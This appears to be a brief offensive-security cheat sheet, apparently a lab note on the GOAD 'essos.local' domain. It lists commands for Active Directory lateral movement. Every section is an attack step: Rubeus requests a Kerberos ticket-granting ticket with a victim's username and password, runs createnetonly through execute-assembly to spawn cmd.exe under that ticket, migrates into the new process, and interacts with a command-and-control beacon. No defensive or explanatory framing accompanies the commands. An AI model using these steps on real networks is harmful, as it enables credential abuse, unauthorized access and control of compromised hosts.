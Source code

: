 # Use credentials of machine to get ticket granting ticket via Kerberos with Rubeus

```bash
rubeus asktgt /user:vimtim_username /password:victim_password /domain:essos.local /nowrap
```

---

# Use ticket granting ticket to start a process

```bash
execute-assembly -i -M -E /home/typ0/Tools/transfers/windows/AD/Rubeus.exe createnetonly /program:C:\\windows\\system32\\cmd.exe /domain:essos.local /username:victim_username /password:whatever /ticket:<tgt-from-previous-command>
```

---

# Migrate to created process ([+] ProcessID) from previous command

```bash
migrate -p <process-id>
```

---

# Interact with beaconID

```bash
# From the previous command we should get an ID for the beacon
use 6a3d10cd
interactive

#use session <id> from previous `interactive` command
use <session-id>
```
